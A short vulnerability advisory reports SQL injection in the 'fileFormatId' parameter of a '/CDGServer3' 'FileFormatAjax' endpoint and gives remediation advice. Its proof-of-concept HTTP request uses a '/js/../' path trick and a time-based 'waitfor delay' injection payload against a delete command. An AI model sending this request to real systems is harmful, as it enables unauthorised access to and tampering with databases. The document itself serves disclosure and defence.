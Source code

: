 # Vulnerability Report

## Vulnerability Type

SQL Injection

## Vulnerability Description

The `fileFormatId` parameter in the `FileFormatAjax` interface is not properly validated and sanitized, leading to a SQL injection vulnerability. An attacker can craft a malicious `fileFormatId` parameter to execute arbitrary SQL queries, potentially accessing or modifying sensitive information in the database.


## POC

An attacker can test the vulnerability using the following POC:

```
POST /CDGServer3/js/../FileFormatAjax HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded

command=delFileFormat&fileFormatId=-1'waitfor delay '0:0:5'--
```

## Impact Scope

This vulnerability may affect all functionalities that use the `FileFormatAjax` interface and allow user submission of the `fileFormatId` parameter.

## Remediation Suggestions

1. Strictly validate and sanitize the user input for the `fileFormatId` parameter to ensure it contains only legitimate values.
2. Use prepared statements to execute database queries to prevent SQL injection attacks.
3. Conduct regular security audits and code reviews to identify and remediate potential security vulnerabilities.

